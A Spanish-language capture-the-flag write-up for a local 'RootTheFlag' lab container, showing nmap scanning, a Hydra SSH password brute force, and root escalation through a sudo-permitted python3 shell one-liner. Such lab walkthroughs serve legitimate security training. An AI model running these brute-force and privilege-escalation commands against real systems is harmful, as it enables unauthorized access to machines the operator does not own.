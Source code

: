 # Resolución de Máquina RootTheFlag de RootAccES

## Instalación

Si todavía no se han unido, el enlace al grupo de Telegram es https://lnkd.in/d-rsKYj3

En el canal Proyecto: RootTheFlag podrás encontrar el zip RootTheFlag01.zip

![root_the_flag](root_the_flag.png)
![zip](zip.png)

Tendrás que descargarlo en tu máquina atacante e inicializarla de la siguiente manera:

Descargar y ubicarlo en un directorio de tu preferencia

![descarga](descarga.png)

Descomprimir el archivo con unzip 

```bash
unzip RootTheFlag01.zip
```

![descomprimir](descomprimir.png)

Inicializar el contenedor
```bash
sudo bash script.sh nombrearchivo.tar
```

![inicializar](inicializar.png)

Se te mostrará una IP resultante de la máquina víctima inicializada

## Nmap

Empezamos con usando nmap para descubrir puertos abiertos

```bash
sudo nmap -p- -sS -sCV 172.17.0.2 --min-rate 5000 
```

Se logra visualizar que se encontraron los puertos 22 y 80 abiertos

![nmap](nmap.png)

El único indicio encontrado en la web (puerto 80) es el nombre "beatriz".

![web](web.png)

No hay nada más en el código de la página web

![codigo_web](codigo_web.png)

## Hydra

Hacemos uso Hydra para buscar un password por fuerza bruta por el puerto 22 con el usuario beatriz y el diccionario rockyou.txt (recuerda colocar la ubicación donde tengas este diccionario, en mi caso yo tengo un extracto de las 5000 primeras líneas del rockyou.txt original en mi carpeta /home/kali, llamado rockyou_5000.txt).

```bash
hydra -l beatriz -P /home/kali/rockyou_5000.txt 172.17.0.2 ssh -f -V -t 64
```

![hydra](hydra.png)

Encontramos que el usuario "beatriz" es válido con el password "chocolate"

![hydra_resultado](hydra_resultado.png)

## SSH

Procedemos a conectarnos por ssh

```bash
ssh beatriz@172.17.0.2
```

![ssh](ssh.png)

## Escalamiento de Privilegios

Ahora consultaremos si podemos ejecutar algún binario como usuario root

```bash
sudo -l
```

![sudol](sudol.png)

Se puede observar que el usuario beatriz puede ejecutar el binario python3 como root


## Searchbins

Una herramienta útil para encontrar como escalar privilegios es searchbins, les dejo el repositorio para que lo instalen fácilmente https://github.com/r1vs3c/searchbins
Esta herramienta básicamente es https://gtfobins.github.io/ pero desde tu terminal.

Ejecutamos
```bash
searchbins -b python -f sudo
```

Y nos aparece el comando para escalar privilegios a root

![searchbins](searchbins.png)

Lo modificaremos un poco antes de usarlo. Es recomendable colocar toda la ruta del binario, tal cuál nos mostró el sudo -l

```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```
![root](root.png)

Ya somos root

## Captura de Flag

Nos dirigimos a la carpeta /root y leemos el archivo flag.txt

Tomamos la parte que está entre llaves, que por su forma parece estar en base64 y lo desencriptamos

```bash
echo aHR0cHM6Ly9yb290YWNjLmVzCg== | base64 -d
```

![flag_final](flag_final.png)

Este es mi primer writeup, pero no será el último!!! Happy Hacking!!!
